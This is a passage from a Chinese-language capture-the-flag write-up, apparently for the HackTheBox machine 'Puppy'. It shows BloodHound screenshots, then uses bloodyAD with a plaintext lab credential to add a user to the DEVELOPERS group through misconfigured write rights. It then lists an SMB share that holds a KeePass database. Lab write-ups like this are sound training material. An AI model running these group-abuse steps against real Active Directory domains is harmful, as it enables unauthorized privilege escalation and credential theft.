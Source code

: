 ```bash
```

先找我们所在：


`Sibling Objects in the Same OU`：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0eab9151f45343028f29b93d2481de49.png)


`Effective Inbound GPOs`：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/2a2c794be5a54558be5362361e46fbde.png)


`First Degree Group Memberships`：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d75fa4197c3540d4af965105edad2d5f.png)


`Unrolled Group Membership`：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/fbda2b270d52497fa551740bfffebfd0.png)


入站控制：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/f0f364fbca3744b6bb599af9ccedceba.png)


出站控制：


![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/af629ff5f6ff4267a9a4e860c5fe9e15.png)


有凭据的用户所在组对developers组有写入权限，所以我们可以将自己写入那个组：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
[+] levi.james added to DEVELOPERS
```

## KeePass

接着去smb访问dev目录：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# smbclient //10.10.11.70/DEV -U levi.james
Password for [WORKGROUP\levi.james]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Mar 23 03:07:57 2025
  ..                                  D        0  Sat Mar  8 11:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 03:09:12 2025
  Projects                            D        0  Sat Mar  8 11:53:36 2025
  recovery.kdbx                       A     2677  Tue Mar 11 22:25:46 2025

                5080575 blocks of size 4096. 1614433 blocks available
```
